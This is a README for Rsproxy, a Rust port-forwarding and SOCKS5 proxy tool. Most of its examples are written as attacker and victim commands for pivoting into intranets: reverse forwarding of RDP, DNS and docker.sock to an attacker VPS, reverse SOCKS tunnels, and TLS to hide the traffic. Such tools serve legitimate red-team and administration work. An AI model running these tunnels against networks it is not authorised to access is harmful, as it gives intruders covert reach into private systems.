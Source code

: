 # Rsproxy

Rsproxy is a lightweight port-forwarding and socks proxy tool written in Rust 🦀

## Build

The project is under development, so you need to build yourself.

```bash
git clone https://github.com/X1r0z/rsproxy
cd rsproxy
cargo build --release
```

## Feature

- TCP/UDP port forwarding
- Unix domain socket forwarding (e.g. `/var/run/docker.sock`)
- Multi network layer support
- TLS encryption support
- Socks5 proxy

## Usage

### TCP Port Forwarding

Listen on `0.0.0.0:8888` and `0.0.0.0:9999`, forward traffic between them.

*specify `127.0.0.1:PORT` to listen on local address*

```bash
./rsproxy fwd -l 8888 -l 9999
```

Listen on `0.0.0.0:8888`, forward traffic to a remote address.

```bash
./rsproxy fwd -l 8888 -r 10.0.0.1:9999
```

Connect `10.0.0.1:8888` and `10.0.0.2:9999`, forward traffic between them.

```bash
./rsproxy fwd -r 10.0.0.1:8888 -r 10.0.0.1:9999
```

A basic example of accessing an intranet address through port forwarding.

```bash
# on attacker's machine
./rsproxy fwd -l 8888 -l 9999

# on victim's machine
./rsproxy fwd -r 10.0.0.1:3389 -r vps:8888

# now attacker can access 10.0.0.1:3389 through vps:9999
```

A complex example, multi-layer proxy in the intranet.

```bash
# on machine A (10.0.0.1, 172.16.0.1)
./rsproxy fwd -r 10.0.0.10:3389 -l 7777

# on machine B (172.16.0.2, 192.168.1.1)
./rsproxy fwd -r 172.16.0.1:7777 -r 192.168.1.2:8888

# on machine C (192.168.1.2, DMZ)
./rsproxy fwd -l 8888 -r vps:9999

# on attacker's machine
./rsproxy fwd -l 9999 -l 33890

# now attacker can access 10.0.0.10:3389 through vps:33890
```

Note that the command on machine B need to be executed last. Because this mode will check the connectivity between the two remote addresses.

### UDP Port Forwarding

The usage of UDP port forwarding is similar to TCP, simply add `-u` flag.

This feature may be unstable.

Note that when using **reverse** UDP port forwarding, a handshake packet will be sent to keep the client address.

Example:

```bash
# on attacker's machine
./rsproxy fwd -l 8888 -l 9999

# on victim's machine
./rsproxy fwd -r 10.0.0.1:53 -r vps:8888
```

The victim's machine will send a handshake packet to `vps:8888`, which is the attacker's machine.

The attacker's machine will remember the client address, and forward the traffic to it when user connects to `vps:9999`.

**Because of the handshake packet, the parameters must be in order and cannot be swapped.**

Another example:

```bash
# on machine A (10.0.0.1, 192.168.1.1, intranet)
./rsproxy fwd -r 10.0.0.10:53 -l 7777

# on machine B (192.168.1.2, DMZ)
./rsproxy fwd -r 192.168.1.1:7777 -r vps:8888 # this command need to be executed last

# on attacker's machine
./rsproxy fwd -l 8888 -l 9999
```

The handshake packet will be sent from machine B to the attacker's machine (port 8888). Users can connect to the intranet through port 9999.

### Unix domain socket Forwarding

A Unix domain socket is a IPC (Inter-Process Communication) method that allows data to be exchanged between two processes running on the same machine.

`/var/run/docker.sock` and `/var/run/php-fpm.sock` are common Unix domain sockets.

You can forward Unix domain socket to a TCP port.

```bash
./rsproxy fwd -s /var/run/docker.sock -l 4444

# get docker version
curl http://127.0.0.1:4444/version
```

or in the reverse mode.

```bash
# on victim's machine
./rsproxy fwd -s /var/run/docker.sock -r vps:4444

# on attacker's machine
./rsproxy fwd -l 4444 -l 5555

# get docker version
curl http://vps:5555/version
```

### Socks Proxy

Rsproxy supports socks5 protocol (no authentication)

Forward socks proxy.

```bash
./rsproxy socks -l 1080
```

Reverse socks proxy.

```bash
# on attacker's machine
./rsproxy socks -l 7777 -l 8888

# on victim's machine
./rsproxy socks -r vps:7777

# now attacker can use socks proxy on vps:8888
```

### TLS Encryption

TLS encryption is supported for TCP, Unix domain socket forwarding and socks proxy.

To enable encryption, simple add `+` sign in front of the address or port.

For ease of use, the server uses a self-signed TLS certificate by default, and the client trusts all certificates (no verify).

Example of a TLS encrypted TCP port forwarding.

```bash
# on attacker's machine
./rsproxy fwd -l +7777 -l 33890

# on victim's machine
./rsproxy fwd -r 127.0.0.1:3389 -r +vps:7777

# now attacker can access 3389 through vps:33890, and the traffic on port 7777 will be encrypted
```

Example of a TLS encrypted reverse socks proxy.

```bash
# on attacker's machine
./rsproxy socks -l +7777 -l 8888

# on victim's machine
./rsproxy socks -r +vps:7777

# now attacker can use socks proxy on vps:8888, and the traffic on port 7777 will be encrypted
```

## Reference

[https://github.com/EddieIvan01/iox](https://github.com/EddieIvan01/iox)
